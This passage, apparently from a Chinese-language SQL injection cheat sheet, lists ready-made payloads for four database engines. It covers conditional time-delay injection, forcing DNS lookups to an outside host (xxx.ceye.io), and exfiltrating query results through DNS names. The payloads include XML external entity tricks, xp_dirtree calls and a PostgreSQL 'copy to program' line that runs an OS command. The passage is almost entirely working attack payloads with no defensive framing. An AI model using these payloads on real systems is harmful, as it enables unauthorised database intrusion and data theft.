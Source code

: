 ### 9.有条件的时间延迟
可以测试单个布尔条件，并在条件为真时触发时间延迟。
````
#Oracle
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual

#Microsoft   
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'

#PostgreSQL 
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END

#mysql
SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
````

### 10.DNS查询
可以利用查询语句使数据库对外部域执行DNS查询。 
````
#Oracle
以下技术利用了XML外部实体注入，可能已被修复: 
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://xxx.ceye.io/"> %remote;]>'),'/l') FROM dual

下面这句适用于完全修补的Oracle，但需要管理员权限: 
SELECT UTL_INADDR.get_host_address('xxx.ceye.io')/

#Microsoft
exec master..xp_dirtree '//xxx.ceye.io/a'

#PostgreSQL
copy (SELECT '') to program 'nslookup xxx.ceye.io'

#MySQL
以下技术仅适用于Windows: 
LOAD_FILE('\\\\xxx.ceye.io\\a') 
SELECT ... INTO OUTFILE '\\\\xxx.ceye.io\a
````

### 11.DNS查找与数据渗透
可以使数据库对包含注入查询结果的外部域执行DNS查找。然后轮询服务器以检索任何DNS交互的详细信息，包括被泄露的数据。
````
#Oracle
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.xxx.ceye.io/"> %remote;]>'),'/l') FROM dual

#Microsoft
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.xxx.ceye.io/a"')

#PostgreSQL
create OR replace function f() returns void as $$ declare c text; declare p text; begin SELECT into p (SELECT YOUR-QUERY-HERE); c := 'copy (SELECT '''') to program ''nslookup '||p||'.xxx.ceye.io'''; execute c; END; $$ language plpgsql security definer; SELECT f();

#MySQL
The following technique works on Windows only: SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\xxx.ceye.io\a'
````
